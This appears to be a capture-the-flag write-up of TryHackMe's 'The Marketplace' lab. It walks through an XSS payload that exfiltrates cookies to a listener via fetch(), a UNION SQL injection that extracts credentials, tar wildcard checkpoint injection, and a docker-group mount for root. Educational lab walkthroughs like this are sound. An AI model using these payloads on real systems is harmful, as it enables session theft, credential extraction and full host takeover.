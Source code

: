 # TryHackMe: The Marketplace

## Challenge Description

The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?

## Planning and Scoping

**Target**: 10.10.159.164

## Information Gathering and Reconnaissance

Nmap was used to scan the target for open ports and services:

```bash
nmap -sC -sV 10.10.159.164
```

Results showed the following open ports and services:

- 22/tcp: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 80/tcp: nginx 1.19.2
- 32768/tcp: Node.js (Express middleware)

## Threat Modeling

Identify potential risks and vulnerabilities in the web application's architecture.

## Vulnerability Assessment

Based on the information gathered during the reconnaissance phase, the following vulnerabilities were identified:

1. Cross-Site Scripting (XXS)
2. SQL Injection (SQLi)

## Exploitation

### Cross-Site Scripting (XXS)

An XXS payload was used to fetch cookies:

```javascript
<script>fetch('http://10.10.255.67:8080?asdf=' + document.cookie, {method: 'GET'})</script>
```

The XSS vulnerability was found when creating a new listing, specifically in the description field. The following CURL command was used to inject the XSS payload into the description:

```bash
curl 'http://10.10.255.67/new' -X POST -H 'Cookie: token=ourLoginCookie' -H --data-raw 'title=asdf&description=%3Cscript%3Efetch%28%27http%3A%2F%2F10.10.41.122%3A8080%3Fasdf%3D%27+%2B+document.cookie%2C+%7Bmethod%3A+%27GET%27%7D%29%3C%2Fscript%3E'
```

The listing was then reported to an admin, who would view the listing and trigger the XSS payload, sending their cookie to our listener:

```bash
curl 'http://10.10.255.67/report/3' -X POST -H 'Cookie: token=ourLoginCookie'
```

```bash
python -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.255.67 - - [03/May/2023 23:46:34] "GET /?asdf=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODMxNTM5OTN9.IQIEQSbQuGhaEUALpITq4LlZLHVk6uNNyY9DJ4kAfIU HTTP/1.1" 200 -
```

We edit our cookie and we are now logged in as an administrator.

```
THM{c37a63895910e478f28669b048c348d5}
```

### SQL Injection (SQLi)

A series of SQL injection payloads were used to extract information from the database:

1. Enumerate table names
2. Enumerate column names for the 'users' table
3. Enumerate table types
4. Enumerate column names for the 'messages' table
5. Extract password from the 'messages' table
6. Extract username and ID from the 'users' table

```sql
http://10.10.255.67/admin?user=5 UNION SELECT user_to, GROUP_CONCAT(message_content SEPARATOR ', '), user_to, user_to FROM messages where id=1
```

The discovered SSH password for user 'jake' was: @b_ENXkGYUCAv3zJ. We can find the second flag.

```bash
jake@the-marketplace:~$ cat user.txt 
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

### Privilege Escalation

Privilege escalation was achieved using a vulnerability in the backup script:

```bash
jake@the-marketplace:~$ sudo -l
(michael) NOPASSWD: /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```


```bash
cd /opt/backups
chmod 777 backup.tar
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=bash'
sudo -u michael /opt/backups/backup.sh
```

## Privilege Escalation: Docker Group Exploitation

During the assessment, it was discovered that the user 'michael' is a member of the 'docker' group. This allows the user to execute Docker commands, which can lead to privilege escalation.

The following steps were taken to exploit this vulnerability:

1. Create a temporary directory and navigate to it:

```bash
mkdir /tmp/test && cd /tmp/test
```

2. Create a Dockerfile with the following content:

```bash
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME [ $WORKDIR ]
WORKDIR $WORKDIR
```

3. Save the Dockerfile and build a malicious Docker image:

```bash
docker build -t malicious-docker .
```

4. Run a Docker container using the malicious image and mount the root filesystem:

```bash
docker run -v /:/privesc -it malicious-docker /bin/sh
```

This step grants access to the host's root filesystem inside the Docker container, allowing for further exploration and exploitation of the system.

```bash
cat /root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

## Recommendations

1. Implement input validation and output encoding to mitigate XXS vulnerabilities.
2. Use prepared statements and parameterized queries to mitigate SQL injection vulnerabilities.
3. Restrict access to sensitive directories and files.
4. Secure backup scripts to prevent privilege escalation.
5. Docker group membership essentially provides root privileges, so it should be restricted to users who need this level of access for their tasks.